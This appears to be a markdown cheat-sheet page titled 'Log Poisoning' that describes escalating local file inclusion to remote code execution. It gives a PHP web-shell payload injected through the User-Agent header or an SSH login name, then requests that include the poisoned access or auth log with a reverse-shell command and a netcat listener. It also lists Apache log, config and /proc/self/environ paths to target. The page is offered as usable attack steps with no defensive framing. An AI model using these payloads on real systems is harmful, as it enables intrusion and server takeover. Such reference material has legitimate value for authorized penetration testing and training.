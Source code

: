 ```yaml
---
title: "Log Poisoning"
draft: false
images: []
description: "LFI to RCE poisoning logs"
lead: "LFI to RCE poisoning logs"
menu:
  docs:
    parent: "Wapp"
weight: 100
toc: true
---
```


## LOGS
* GET /browse.php?file=/var/log/httpd-access.log&cmd=revshell
* User Agent: Mozilla/5.0<?php system($_GET['cmd']); ?> Gecko ...
* nc -lvp 1234

**Note:** Remember to url encode the reverse shell
## SSH
* Try login ssh like this ssh '<?php system($_GET['cmd']); ?>'@10.10.10.10
* GET /browser.php?file=/var/log/auth.log&cmd=revshell
* nc -lvp 1234

**Note:** Remember to url encode the reverse shell
## COMMON LOG FILE LOCATION

### Ubuntu, Debian
```
/var/log/apache2/error.log
/var/log/apache2/access.log
```
### Red Hat, CentOS, Fedora, OEL, RHEL
```
/var/log/httpd/error_log
/var/log/httpd/access_log
```
### FreeBSD
```
/var/log/httpd-error.log
/var/log/httpd-access.log
```
### Ubuntu
```
/etc/apache2/apache2.conf
/etc/apache2/httpd.conf
/etc/apache2/apache2.conf
/etc/httpd/httpd.conf
/etc/httpd/conf/httpd.conf
```
### FreeBSD
```
/usr/local/etc/apache2/httpd.conf
/etc/apache2/sites-enabled/000-default.conf
/proc/self/environ
/proc/self/environ
```